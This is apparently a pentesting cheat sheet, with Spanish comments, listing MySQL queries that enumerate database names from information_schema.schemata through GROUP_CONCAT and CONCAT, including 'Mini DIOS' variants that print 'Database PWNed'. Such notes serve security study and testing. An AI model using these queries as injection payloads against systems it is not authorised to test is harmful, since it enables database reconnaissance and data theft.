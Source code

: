 # SQLi: schema, schemata & DIOS

## `schema name` fron `information schema`

### Query basic

````sql
select schema_name from information_schema.schemata;
````

### Group Concat

#### Basic

````sql
SELECT GROUP_CONCAT(schema_name) FROM information_schema.schemata;
````

#### Variantes

````sql
## Agregando un string para separador en forma de ':'
SELECT GROUP_CONCAT(schema_name SEPARATOR ' : ') FROM information_schema.schemata;

## Mini DIOS
SELECT GROUP_CONCAT('Database PWNed: ',schema_name) FROM information_schema.schemata;
````

### Concat

#### Basic

````sql
SELECT concat(schema_name) FROM information_schema.schemata;
````

#### Variantes

````sql
## Agregando un string para separador en forma de ':'
SELECT concat(schema_name, ' : ') FROM information_schema.schemata;

## Mini DIOS: DB Enum (schema enum)
SELECT concat('Database PWNed : ',(schema_name)) FROM information_schema.schemata;
````
